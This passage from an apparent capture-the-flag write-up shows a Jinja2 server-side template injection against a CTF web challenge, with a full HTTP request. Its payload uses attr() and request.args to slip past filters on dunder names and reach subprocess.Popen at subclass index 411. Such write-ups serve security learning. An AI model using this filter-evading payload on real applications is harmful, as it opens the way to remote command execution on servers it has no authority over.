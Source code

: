 {% endraw %}

**Finding Index of subprocess.Popen**

subprocess.Popen is of interest to us as it would allow us to run system commands. This is located at 411 index in subclasses list.

![wc15](/assets/playsecure2021/wc15.png)

{% raw %}
```python
POST /generate?class=__class__&mro=__mro__&getitem=__getitem__&sc=__subclasses__ HTTP/1.1
Host: web.ps.ctf.ae:8882
Content-Length: 314
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://web.ps.ctf.ae:8882
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://web.ps.ctf.ae:8882/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

firstName=a&lastName=b&desc={% set string = "abc" %}{% set cls = string|attr(request.args.class) %}{% set mro = cls|attr(request.args.mro) %}{% set obj = mro|attr(request.args.getitem)(1) %}{% set subclasses = obj|attr(request.args.sc)() %}{% set popen = subclasses|attr(request.args.getitem)(411) %}{{popen|safe}}

```
{% endraw %}
